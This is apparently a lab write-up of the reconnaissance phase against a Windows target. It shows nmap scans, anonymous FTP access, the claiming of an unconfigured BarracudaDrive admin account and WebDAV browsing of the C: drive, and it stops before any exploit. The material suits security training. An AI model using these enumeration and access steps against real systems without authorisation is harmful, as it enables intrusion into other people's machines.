






Writeup by wook413

[TOC]

# Recon

## Nmap

As always, I initiated the machine engagement with a comprehensive scan of all 65,535 TCP ports, followed by a targeted service scan of the identified ports. Finally, I performed a UDP scan of the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 02:53 UTC
Nmap scan report for 192.168.232.127
Host is up (0.056s latency).
Not shown: 65474 closed tcp ports (reset), 43 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8000/tcp  open  http-alt
30021/tcp open  unknown
33033/tcp open  unknown
44330/tcp open  unknown
45332/tcp open  unknown
45443/tcp open  unknown
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 135,139,445,3306,5040,7680,8000,30021,33033,44330,45332,45443,49664-49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 02:55 UTC
Nmap scan report for 192.168.232.127
Host is up (0.052s latency).

PORT      STATE  SERVICE       VERSION
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
3306/tcp  open   mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open   unknown
7680/tcp  closed pando-pub
8000/tcp  open   http-alt      BarracudaServer.com (Windows)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: BarracudaServer.com (Windows)
|_http-title: Home
| http-methods: 
|_  Potentially risky methods: PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Type: BarracudaServer.com (Windows)
|_  Server Date: Thu, 29 Jan 2026 02:58:04 GMT
| fingerprint-strings: 
|   FourOhFourRequest, Socks5: 
|     HTTP/1.1 200 OK
|     Date: Thu, 29 Jan 2026 02:55:36 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   GenericLines, GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 29 Jan 2026 02:55:31 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 29 Jan 2026 02:55:41 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 29 Jan 2026 02:55:42 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   SIPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 29 Jan 2026 02:56:45 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|     Content-Type: text/html
|     Cache-Control: no-store, no-cache, must-revalidate, max-age=0
|_    <html><body><h1>400 Bad Request</h1>Can't parse request<p>BarracudaServer.com (Windows)</p></body></html>
30021/tcp open   ftp           FileZilla ftpd 0.9.41 beta
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            536 Nov 03  2020 .gitignore
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 app
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 bin
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 config
| -r--r--r-- 1 ftp ftp            130 Nov 03  2020 config.ru
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 db
| -r--r--r-- 1 ftp ftp           1750 Nov 03  2020 Gemfile
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 lib
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 log
| -r--r--r-- 1 ftp ftp             66 Nov 03  2020 package.json
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 public
| -r--r--r-- 1 ftp ftp            227 Nov 03  2020 Rakefile
| -r--r--r-- 1 ftp ftp            374 Nov 03  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 test
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 tmp
|_drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 vendor
|_ftp-bounce: bounce working!
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
33033/tcp open   unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
44330/tcp open   ssl/unknown
| ssl-cert: Subject: commonName=server demo 1024 bits/organizationName=Real Time Logic/stateOrProvinceName=CA/countryName=US
| Not valid before: 2009-08-27T14:40:47
|_Not valid after:  2019-08-25T14:40:47
|_ssl-date: 2026-01-29T02:58:32+00:00; 0s from scanner time.
45332/tcp open   http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-title: Quiz App
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|_  Potentially risky methods: TRACE
45443/tcp open   http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Quiz App
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49669/tcp open   msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.95%I=7%D=1/29%Time=697ACC23%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x20
SF:2026\\x2002:55:31\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows
SF:\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(GetRequest,72,"HTTP/1\\.1\\x20200\\
SF:x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55:31\\x20GMT\\r\\nServe
SF:r:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r
SF:\\n")%r(FourOhFourRequest,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2
SF:029\\x20Jan\\x202026\\x2002:55:36\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.co
SF:m\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(Socks5,72,"HTTP/1\\
SF:.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55:36\\x20GM
SF:T\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20C
SF:lose\\r\\n\\r\\n")%r(HTTPOptions,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu
SF:,\\x2029\\x20Jan\\x202026\\x2002:55:41\\x20GMT\\r\\nServer:\\x20BarracudaServer
SF:\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(RTSPRequest,72
SF:,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55
SF::42\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnect
SF:ion:\\x20Close\\r\\n\\r\\n")%r(SIPOptions,13C,"HTTP/1\\.1\\x20400\\x20Bad\\x20Re
SF:quest\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:56:45\\x20GMT\\r\\nServe
SF:r:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\nCo
SF:ntent-Type:\\x20text/html\\r\\nCache-Control:\\x20no-store,\\x20no-cache,\\x2
SF:0must-revalidate,\\x20max-age=0\\r\\n\\r\\n<html><body><h1>400\\x20Bad\\x20Req
SF:uest</h1>Can't\\x20parse\\x20request<p>BarracudaServer\\.com\\x20\\(Windows\\
SF:)</p></body></html>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33033-TCP:V=7.95%I=7%D=1/29%Time=697ACC23%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\n\\r\\n")%r(GetReque
SF:st,C76,"HTTP/1\\.0\\x20403\\x20Forbidden\\r\\nContent-Type:\\x20text/html;\\x2
SF:0charset=UTF-8\\r\\nContent-Length:\\x203102\\r\\n\\r\\n<!DOCTYPE\\x20html>\\n<h
SF:tml\\x20lang=\\"en\\">\\n<head>\\n\\x20\\x20<meta\\x20charset=\\"utf-8\\"\\x20/>\\n
SF:\\x20\\x20<title>Action\\x20Controller:\\x20Exception\\x20caught</title>\\n\\x
SF:20\\x20<style>\\n\\x20\\x20\\x20\\x20body\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20backg
SF:round-color:\\x20#FAFAFA;\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\x20#333;\\n\\x20
SF:\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\
SF:x20body,\\x20p,\\x20ol,\\x20ul,\\x20td\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20font-f
SF:amily:\\x20helvetica,\\x20verdana,\\x20arial,\\x20sans-serif;\\n\\x20\\x20\\x20
SF:\\x20\\x20\\x20font-size:\\x20\\x20\\x2013px;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-h
SF:eight:\\x2018px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20pre\\x20{\\n\\x20\\x2
SF:0\\x20\\x20\\x20\\x20font-size:\\x2011px;\\n\\x20\\x20\\x20\\x20\\x20\\x20white-spa
SF:ce:\\x20pre-wrap;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20pre\\.box\\x20{\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20border:\\x201px\\x20solid\\x20#EEE;\\n\\x20\\x20\\x20\\x
SF:20\\x20\\x20padding:\\x2010px;\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20width:\\x20958px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\
SF:x20\\x20header\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\x20#F0F0F0;\\n\\x20\\x2
SF:0\\x20\\x20\\x20\\x20background:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20paddi
SF:ng:\\x200\\.5em\\x201\\.5em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h1\\x20{\\
SF:n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200\\.2em\\x200;\\n\\x20\\x20\\x20\\x20\\x20\\
SF:x20line-height:\\x201\\.1em;\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x202em;\\
SF:n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h2\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20
SF:color:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-height:\\x2025px;\\n\\x20
SF:\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20\\.details\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x
SF:20bord")%r(HTTPOptions,C76,"HTTP/1\\.0\\x20403\\x20Forbidden\\r\\nContent-Ty
SF:pe:\\x20text/html;\\x20charset=UTF-8\\r\\nContent-Length:\\x203102\\r\\n\\r\\n<!
SF:DOCTYPE\\x20html>\\n<html\\x20lang=\\"en\\">\\n<head>\\n\\x20\\x20<meta\\x20chars
SF:et=\\"utf-8\\"\\x20/>\\n\\x20\\x20<title>Action\\x20Controller:\\x20Exception\\x
SF:20caught</title>\\n\\x20\\x20<style>\\n\\x20\\x20\\x20\\x20body\\x20{\\n\\x20\\x20\\
SF:x20\\x20\\x20\\x20background-color:\\x20#FAFAFA;\\n\\x20\\x20\\x20\\x20\\x20\\x20c
SF:olor:\\x20#333;\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\x20\\x20\\x20\\x
SF:20}\\n\\n\\x20\\x20\\x20\\x20body,\\x20p,\\x20ol,\\x20ul,\\x20td\\x20{\\n\\x20\\x20\\x
SF:20\\x20\\x20\\x20font-family:\\x20helvetica,\\x20verdana,\\x20arial,\\x20sans-
SF:serif;\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x20\\x20\\x2013px;\\n\\x20\\x20\\x
SF:20\\x20\\x20\\x20line-height:\\x2018px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\
SF:x20pre\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x2011px;\\n\\x20\\x20\\x20\\
SF:x20\\x20\\x20white-space:\\x20pre-wrap;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20
SF:\\x20pre\\.box\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20border:\\x201px\\x20solid\\x20#
SF:EEE;\\n\\x20\\x20\\x20\\x20\\x20\\x20padding:\\x2010px;\\n\\x20\\x20\\x20\\x20\\x20\\x
SF:20margin:\\x200px;\\n\\x20\\x20\\x20\\x20\\x20\\x20width:\\x20958px;\\n\\x20\\x20\\x
SF:20\\x20}\\n\\n\\x20\\x20\\x20\\x20header\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\
SF:x20#F0F0F0;\\n\\x20\\x20\\x20\\x20\\x20\\x20background:\\x20#C52F24;\\n\\x20\\x20\\
SF:x20\\x20\\x20\\x20padding:\\x200\\.5em\\x201\\.5em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20
SF:\\x20\\x20\\x20h1\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200\\.2em\\x200;\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20line-height:\\x201\\.1em;\\n\\x20\\x20\\x20\\x20\\x20\\x2
SF:0font-size:\\x202em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h2\\x20{\\n\\x20
SF:\\x20\\x20\\x20\\x20\\x20color:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-he
SF:ight:\\x2025px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20\\.details\\x20{\\n\\x
SF:20\\x20\\x20\\x20\\x20\\x20bord");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-29T02:58:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 189.45 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                                                  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 03:06 UTC
Nmap scan report for 192.168.232.127
Host is up (0.051s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

# Footprinting

## SMB 139 445

SMB Null Authentication was denied. I confirmed with both `smbclient` and `smbmap`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 03:32 UTC
Nmap scan report for 192.168.232.127
Host is up (0.049s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 39.62 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP             
session setup failed: NT_STATUS_ACCESS_DENIED
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[!] Something weird happened on (192.168.232.127) Error occurs while reading from remote(104) on line 1015                   
[*] Closed 1 connections
```

## FTP 30021

The FTP service on port 30021 allowed **Anonymous Login**.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP 30021
Connected to 192.168.232.127.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit <http://sourceforge.net/projects/filezilla/>
Name (192.168.232.127:kali): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

To facilitate easier enumeration, I downloaded all available FTP data; unfortunately, no sensitive information was found, leading me to shift my focus to the HTTP services.

```bash
┌──(kali㉿kali)-[~/Desktop/ftpshare]
└─$ wget -m --no-passive <ftp://anonymous:anonymous@$IP:30021>
```

## HTTP 8000 45332 45443

### HTTP 8000

The web page on port 8000 prompted me to create an administrator account, stating that the `BarracudaDriver` server would be inaccessible otherwise.







After successfully creating the administrator account, I explored the server and discovered a “Web-File Server” tab. This section detailed the **WebDAV** server and identified `/fs` as the direct link to the file server.



I attempted to access `/fs` using the `cadaver` utility. When prompted for credentials, I successfully authenticated using the administrator account I had previously created. The **WebDAV** server appeared to provide access to both the `C:` and `D:` drives.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cadaver <http://$IP:8000/fs>
Authentication required for Web File Server on server `192.168.232.127':
Username: wook
Password: 
dav:/fs/> ls
Listing collection `/fs/': succeeded.
Coll:   C                                      0  Jan  1  1970
Coll:   D                                      0  Jan  1  1970
```

Recognizing a `XAMPP` environment, I navigated to `C:/xamp/htdocs` (the default web root for XAMPP) and confirmed the presence of `index.html` and other core web service files.

```bash
dav:/fs/> cd C
dav:/fs/C/> ls
Listing collection `/fs/C/': succeeded.
Coll:   $Recycle.Bin                           0  Nov  3  2020
Coll:   $WinREAgent                            0  Dec  2  2021
Coll:   Documents and Settings                 0  Oct 16  2020
Coll:   FTP                                    0  Nov  3  2020
Coll:   PerfLogs                               0  Dec  7  2019
Coll:   Program Files (x86)                    0  Dec  2  2021
Coll:   Program Files                          0  Dec  2  2021
Coll:   ProgramData                            0  Dec  7  2021
Coll:   RailsInstaller                         0  Nov  3  2020
Coll:   Recovery                               0  Dec  2  2021
Coll:   Ruby26-x64                             0  Nov  3  2020
Coll:   Sites                                  0  Nov  3  2020
Coll:   System Volume Information              0  Oct 16  2020
Coll:   Users                                  0  Dec  2  2021
